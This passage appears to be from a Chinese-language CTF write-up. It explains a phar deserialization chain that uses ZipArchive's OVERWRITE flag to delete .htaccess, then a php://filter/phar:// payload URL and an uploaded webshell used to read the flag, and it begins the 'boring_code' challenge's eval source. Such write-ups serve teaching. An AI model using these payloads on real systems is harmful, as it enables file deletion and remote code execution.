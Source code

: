 看过手册后发现`ZipArchive`类的open方法可以利用，我们看一下定义：

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g71kdt5n5kj311h0mxjsi.jpg)

对应上面生成phar文件的exp来看：

``` php
$a->checker->password = ZipArchive::OVERWRITE | ZipArchive::CREATE;
```

再看一下`ZipArchive::OVERWRITE`的定义：

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g71kdtdqj3j30in02i748.jpg)

这个选项我在本地测试对一个txt文件操作时会删除该文件（Linux下可以，win下不行）

因此该exp就是要反序列化后利用`ZipArchive`类来删除.htaccess文件


先上传一个能够绕过检测的一句话，然后再上传phar文件

由于在view.php中读取文件时把phar开头也给过滤掉了，因此我们使用php伪协议filter来读

payload：`view.php?filename=dd7ec931179c4dcb6a8ffb8b8786d20b.txt&filepath=php://filter/resource=phar://sandbox/6683eb5bfa1174bd139499256f60b7ab/dd7ec931179c4dcb6a8ffb8b8786d20b.txt`

然后再访问之前上传的一句话，传入`a=cat /flag`即可

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g6yw0afg3bj30u209p0tf.jpg)


## boring_code

打开题目界面是一张图片，右键查看源码发现提示注释：

``` htmlbars
<!-- flag 就在这个文件里面 -->
<!-- /code -->
```

也就是说flag就在index.php中，我们再访问`/code`，发现源码：

``` php
<?php
function is_valid_url($url) {
    if (filter_var($url, FILTER_VALIDATE_URL)) {
        if (preg_match('/data:\/\//i', $url)) {
            return false;
        }
        return true;
    }
    return false;
}

if (isset($_POST['url'])){
    $url = $_POST['url'];
    if (is_valid_url($url)) {
        $r = parse_url($url);
        if (preg_match('/baidu\.com$/', $r['host'])) {
            $code = file_get_contents($url);
            if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        } else {
            echo "error: host not allowed";
```